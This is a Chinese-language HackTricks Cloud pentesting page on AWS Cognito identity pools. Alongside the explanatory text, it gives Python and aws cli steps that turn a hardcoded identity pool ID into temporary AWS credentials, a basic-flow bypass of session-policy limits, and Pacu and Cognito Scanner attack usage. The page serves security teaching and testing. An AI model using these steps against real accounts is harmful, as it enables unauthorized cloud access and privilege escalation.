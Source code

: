 # Cognito身份池

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

身份池通过使您的用户**获取临时凭证**发挥关键作用。这些凭证对于访问各种AWS服务至关重要，包括但不限于Amazon S3和DynamoDB。身份池的一个显著特点是支持匿名访客用户和一系列身份提供者进行用户认证。支持的身份提供者包括：

- Amazon Cognito用户池
- 社交登录选项，如Facebook、Google、使用Amazon登录和使用Apple登录
- 符合OpenID Connect（OIDC）标准的提供者
- SAML（安全断言标记语言）身份提供者
- 开发人员认证身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

要生成身份池会话，首先需要**生成身份 ID**。这个身份 ID 是**用户会话的标识**。这些标识最多可以有 20 个数据集，每个数据集可以存储最多 1MB 的键值对。

这对于**保留用户信息**（始终使用相同的身份 ID 的用户）非常有用。

此外，**cognito-sync** 服务是允许**管理和同步这些信息**（在数据集中发送信息流和 SNS 消息等）的服务。

### 用于渗透测试的工具

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 利用框架，现在包括“cognito\_\_enum”和“cognito\_\_attack”模块，自动枚举帐户中所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，并自动创建用户（包括 MFA 支持）和基于可修改的自定义属性、可用的身份池凭据、ID 令牌中可假定的角色等进行特权升级。

有关模块功能的描述，请参阅[博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参阅主要[Pacu](https://github.com/RhinoSecurityLabs/pacu)页面。

#### 用法

示例 cognito\_\_attack 用法，尝试创建用户以及针对给定身份池和用户池客户端的所有权限提升向量：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
示例cognito\_\_enum用法，用于收集当前AWS账户中可见的所有用户池、用户池客户端、身份池、用户等。
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，实现对 Cognito 的不同攻击，包括未经授权的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 用法
```bash
$ cognito-scanner --help
```
查看更多信息，请访问 https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未经身份验证

在 Cognito 应用程序中，作为未经身份验证的用户，攻击者唯一需要知道的是**身份池 ID**，而且这个**ID必须在**网页/移动**应用程序中硬编码**以便使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（无法通过暴力破解获得）。

{% hint style="success" %}
**通过默认方式创建的 IAM Cognito 未经身份验证角色**称为 `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果您发现一个硬编码的身份池 ID 并且允许未经身份验证的用户，您可以使用以下方法获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的Cognito用户**无法拥有任何权限，即使通过策略分配了权限**。请查看以下部分。
{% endhint %}

### 增强 vs 基本身份验证流程

前一部分遵循了**默认的增强身份验证流程**。该流程为生成的IAM角色会话设置了**限制性**[**会话策略**](../../aws-basic-information/#session-policies)。此策略将仅允许会话[**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色具有访问其他服务的权限）。

然而，如果**身份池启用了"基本（经典）流程"**，则可以绕过此限制，用户将能够使用该流程获取会话，该会话**不会受到限制性的会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组IAM凭据后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住**已认证用户**可能会被授予**不同的权限**，因此如果您可以**在应用内注册**，请尝试这样做并获取新凭据。
{% endhint %}

还可能为**访问身份池的已认证用户**提供**角色**。

为此，您可能需要访问**身份提供者**。如果是**Cognito用户池**，也许您可以滥用默认行为并**自行创建新用户**。

{% hint style="success" %}
通过默认方式创建的**IAM Cognito已认证角色**称为`Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假定您已经登录到用于访问身份池的**Cognito用户池**中（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令的响应中获取identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在IdToken中，您可以找到用户由于用户池组而具有的角色
# 使用--custom-role-arn获取特定角色的凭据
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
**可能会根据用户登录的身份提供者或甚至仅根据用户**（使用声明）**配置不同的IAM角色**。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问所有这些用户的IAM角色可能是**值得的**。
{% endhint %}

{% hint style="success" %}
学习并实践AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}
